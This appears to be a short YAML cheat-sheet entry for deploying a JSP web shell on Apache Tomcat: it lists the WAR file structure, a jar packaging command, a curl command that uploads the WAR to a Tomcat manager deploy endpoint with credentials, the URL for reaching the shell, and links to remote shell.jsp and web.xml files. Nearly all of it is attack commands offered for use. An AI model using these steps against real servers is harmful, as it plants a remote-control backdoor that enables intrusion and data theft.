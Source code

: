 ```yaml
---
functions:
  shell:
    - description: WAR web shell (in jsp format)
      
---
```

code: |
        (1) File Structure:
        	── shell.jsp
			    ── WEB-INF
		    	    ── web.xml
		(2) jar -cf shell.war *
        (3) curl --upload-file shell.war http://10.10.10.194:8080/manager/text/deploy?path=/{context}&update=true -u {username}
        (4) https://{address}/{context}
resources:
  https://raw.githubusercontent.com/MidnightSeer/scripts/master/shell.jsp
  https://raw.githubusercontent.com/MidnightSeer/scripts/master/web.xml